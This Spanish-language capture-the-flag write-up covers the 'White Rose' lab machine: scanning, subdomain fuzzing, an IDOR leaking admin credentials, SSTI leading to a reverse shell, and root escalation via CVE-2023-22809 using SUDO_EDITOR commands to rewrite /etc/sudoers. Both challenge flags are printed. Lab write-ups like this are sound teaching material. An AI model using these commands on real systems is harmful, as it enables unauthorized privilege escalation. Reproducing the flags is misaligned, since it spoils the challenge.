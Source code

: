 # White Rose Writeup

## Escaneo

Empezamos con la fase de escaneo utilizando la herramienta `nmap`:

```bash
nmap -p- --open -Pn -n -sV --min-rate 5000 -sS <HOST> -oN white -vvv
```

Podemos ver que los puertos abiertos son `22/ssh` y `80/http`:

```plaintext
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 63 nginx 1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Al revisar el puerto 80, vemos que tiene un dominio. Registramos el dominio en `/etc/hosts` y encontramos una página de mantenimiento:

![Página de mantenimiento](anexo_white/white.png)

---

## Enumeración de Subdominios

Buscaremos subdominios utilizando `ffuf`:

```bash
ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -u http://cyprusbank.thm -H "HOST:FUZZ.cyprusbank.thm" -fw 1
```

Encontramos los siguientes subdominios:

```plaintext
www
admin
```

Agregamos los dominios al archivo `/etc/hosts`. Al visitar el subdominio `admin`, encontramos una página de inicio de sesión:

![Página de inicio de sesión](anexo_white/white2.png)

---

## Acceso Inicial

Iniciamos sesión con las credenciales proporcionadas:

- Usuario: `Olivia Cortez`
- Contraseña: `olivi8`

Dentro de la página, revisamos las conversaciones de usuarios:

![Conversaciones de usuarios](anexo_white/white3.png)

Observamos una vulnerabilidad de **IDOR**, lo que nos permite ver conversaciones anteriores. Aquí encontramos las credenciales de administrador:

```plaintext
Usuario: Gayle Bev
Contraseña: p~]P@5!6;rs558:q
```

Al iniciar sesión con estas credenciales, podemos acceder a información adicional y obtener la primera respuesta:

![Respuesta obtenida](anexo_white/white4.png)

---

## Conexión a la Máquina

Interceptamos la solicitud de cambio de contraseña con Burp Suite:

![Interceptación de solicitud](anexo_white/white5.png)

El error reportado menciona `ejs`, lo que indica una posible vulnerabilidad **SSTI**. Creamos una reverse shell codificada en Base64 y la enviamos con Burp Suite:

![Reverse shell enviada](anexo_white/white7.png)

Logramos conectarnos a la máquina:

![Conexión establecida](anexo_white/white8.png)

Para una shell interactiva, ejecutamos:

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
stty raw -echo; fg
```

---

## Primera Flag

Usamos el comando `find` para localizar la flag `user.txt`:

```bash
find / -name user.txt 2>/dev/null
```

La flag se encuentra en `/home/web`:

```plaintext
THM{4lways_upd4te_uR_d3p3nd3nc!3s}
```

---

## Escalada de Privilegios

Al usar `sudo -l`, vemos que podemos usar `sudoedit`:

```plaintext
User web may run the following commands on cyprusbank:
    (root) NOPASSWD: sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
```

Investigamos la versión de `sudoedit` (`1.9.12p11`) y encontramos la vulnerabilidad **CVE-2023-22809**. Configuramos el editor `SUDO_EDITOR` para modificar el archivo `sudoers`:

```bash
export SUDO_EDITOR='nano -- /etc/sudoers'
sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
```

Agregamos el siguiente texto al archivo `sudoers`:

```plaintext
web ALL:(ALL:ALL) NOPASSWD: ALL
```

Luego, usamos `sudo su` para convertirnos en root y obtenemos la flag `root.txt`:

```plaintext
THM{4nd_uR_p4ck4g3s}
```

---

## Conclusión

Con esto, completamos la máquina **White Rose**. ¡Buen trabajo!

